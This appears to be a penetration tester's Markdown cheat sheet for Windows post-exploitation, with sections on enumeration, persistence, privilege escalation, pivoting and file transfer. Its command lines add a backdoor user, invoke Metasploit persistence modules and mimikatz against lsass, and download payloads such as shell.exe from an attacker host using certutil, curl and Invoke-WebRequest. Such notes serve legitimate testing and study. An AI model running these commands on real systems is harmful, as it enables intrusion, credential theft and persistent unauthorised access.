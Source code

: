 <details>
  <summary></summary>
    <br>
</details>

<details>
  <summary>Enumeration</summary>
    <br>
  
 [JAWS](https://github.com/411Hall/JAWS)
  
  
    Recently accessed files and executed commands

    type C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt 


List of installed patches

    wmic qfe get Caption,Description,HotFixID,InstalledOn
 
 
Network connections

    netstat -r    # route info
    
    netstat -ano  # connections and the PID
    
    route print
    
    
Processes
 
     tasklist 
     powershell -c Get-Service
     sc query

Arp table

    arp -a
</details>

<details>
  <summary>Maintain persistance</summary>
    <br>
    
     - Add user
  
        net user <username> <pass> /add

  - Metasploit
  
        exploit/windows/local/persistence
        
        exploit/windows/local/registry_persistence

        run persistence -h

  - Set a scheduled task

    
</details>

<details>
  <summary>Pivilege escalation</summary>
    <br>
    
- [mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

  - Need process with permissions to be able to interact with the running lsass.exe process
    -  ran as NT AUTHORITY\SYSTEM
    -  Must be same arch as the lsass.exe running on the target
    
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
    
-------------------------------------------------------------------------------------

- [Nishang repo](https://github.com/samratashok/nishang)

-------------------------------------------------------------------------------------

- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

      wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat


- [Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

      wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
      
      ./windows-exploit-suggester.py --update
      
      # This will create an .xlsx database
      
      With meterpreter "sysinfo" saved to a file 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
      
      # Without 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2' 
 

- Auto finding exploits based on system information and installed patches
 
      cmd.exe /c systeminfo > systeminfo.txt

      ./winpwnSuggester.py --update

      ./winpwnSuggester.py --database YYYY-MM-DD-mssb.xls --systeminfo ~/sysinfo.txt

      [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)


- Meterpreter exploit suggester module

      post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)

</details>

<details>
  <summary>Pivoting</summary>
    <br>

**Egrees firewall testing:**

 If python is useable: 
 
    https://github.com/stufus/egresscheck-framework
    
 If python is not useable and powershell is: 
 
     powershell.exe Get-Alias -Definition Invoke-WebRequest | Format-Table -AutoSize
     
     powershell.exe curl http://<ip>:<port>/x
     
     
     
 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network

</details>

<details>
  <summary>Methods to upload files to/from target</summary>
    <br>

    curl http://<ip>:8000/<file> -O <file>
    
    certutil.exe -urlcache -f http://<ip>:8000/<remotefile> <save filename>
    
    powershell -c "Invoke-WebRequest -Uri '<ip>/<shell.exe>' -OutFile '<output path>'"
    
    Naviage directly through browser 
    
    ftp <ip>   #On attacker machine: python -m pyftpdlib 21  

    upload  #If using meterpreter

</details>

